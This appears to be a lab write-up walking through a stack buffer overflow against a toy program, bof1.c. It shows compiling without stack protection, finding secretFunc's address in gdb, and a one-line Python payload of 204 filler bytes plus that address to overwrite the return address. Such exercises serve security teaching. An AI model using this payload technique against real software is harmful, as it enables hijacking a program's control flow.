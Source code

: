 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## stackframe
![image](https://github.com/user-attachments/assets/b2836a7b-fe7e-45f6-88f0-683aa1eeeaa3)
## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`    
![image](https://github.com/user-attachments/assets/21d80169-9f8e-4b30-9a74-2a1f724fe91e)
## Run gdb for futher examination
`gdb bof1.out`      
![image](https://github.com/user-attachments/assets/fd0f1874-33e5-462a-b728-5585a58f25f2)
## Try to see each func in machine code!
With **vuln**: `disas vuln`    
![image](https://github.com/user-attachments/assets/5cebaf7c-ea46-4f84-8ca1-5cadb035417b)  
With **secretFunc**: `disas secretFunc`  
![image](https://github.com/user-attachments/assets/9309975e-fe08-4948-b08a-ff2b48181bd6)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![image](https://github.com/user-attachments/assets/e7537703-ab20-4977-96fb-a0ee086fc7ec)

